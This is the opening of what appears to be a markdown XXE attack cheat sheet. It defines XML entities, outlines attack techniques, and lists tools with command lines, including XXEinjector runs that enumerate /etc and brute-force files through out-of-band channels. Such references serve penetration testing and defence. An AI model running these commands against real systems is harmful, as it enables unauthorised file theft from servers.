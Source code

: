 # XML External Entity

> An XML External Entity attack is a type of attack against an application that parses XML input and allows XML entities. XML entities can be used to tell the XML parser to fetch specific content on the server.

**Internal Entity**: If an entity is declared within a DTD it is called as internal entity.    
Syntax: `<!ENTITY entity_name "entity_value">`

**External Entity**: If an entity is declared outside a DTD it is called as external entity. Identified by `SYSTEM`.    
Syntax: `<!ENTITY entity_name SYSTEM "entity_value">`

## Summary

- [Tools](#tools)
- [Detect the vulnerability](#detect-the-vulnerability)
- [Exploiting XXE to retrieve files](#exploiting-xxe-to-retrieve-files)
  - [Classic XXE](#classic-xxe)
  - [Classic XXE Base64 encoded](#classic-xxe-base64-encoded)
  - [PHP Wrapper inside XXE](#php-wrapper-inside-xxe)
  - [XInclude attacks](#xinclude-attacks)
- [Exploiting XXE to perform SSRF attacks](#exploiting-xxe-to-perform-SSRF-attacks)
- [Exploiting XXE to perform a deny of service](#exploiting-xxe-to-perform-a-deny-of-service)
  - [Billion Laugh Attack](#billion-laugh-attack)
- [Error Based XXE](#error-based-xxe)
- [Exploiting blind XXE to exfiltrate data out-of-band](#exploiting-blind-xxe-to-exfiltrate-data-out-of-band)
  - [Blind XXE](#blind-xxe)
  - [XXE OOB Attack (Yunusov, 2013)](#xxe-oob-attack-yusonov---2013)
  - [XXE OOB with DTD and PHP filter](#xxe-oob-with-dtd-and-php-filter)
  - [XXE OOB with Apache Karaf](#xxe-oob-with-apache-karaf)
- [XXE in exotic files](#xxe-in-exotic-files)
  - [XXE inside SVG](#xxe-inside-svg)
  - [XXE inside SOAP](#xxe-inside-soap)
  - [XXE inside DOCX file](#xxe-inside-docx-file)
  - [XXE inside XLSX file](#xxe-inside-xlsx-file)

## Tools

- [xxeftp](https://github.com/staaldraad/xxeserv) - A mini webserver with FTP support for XXE payloads
  ```
  sudo ./xxeftp -uno 443
  ./xxeftp -w -wps 5555
  ```
- [230-OOB](https://github.com/lc/230-OOB) - An Out-of-Band XXE server for retrieving file contents over FTP and payload generation via [http://xxe.sh/](http://xxe.sh/)
  ```
  $ python3 230.py 2121
  ```
- [XXEinjector](https://github.com/enjoiz/XXEinjector) - Tool for automatic exploitation of XXE vulnerability using direct and different out of band methods
  ```bash
  # Enumerating /etc directory in HTTPS application:
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --ssl
  # Enumerating /etc directory using gopher for OOB method:
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher
  # Second order exploitation:
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt --2ndfile=/tmp/2ndreq.txt
  # Bruteforcing files using HTTP out of band method and netdoc protocol:
  ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt --file=/tmp/req.txt --oob=http --netdoc
  ```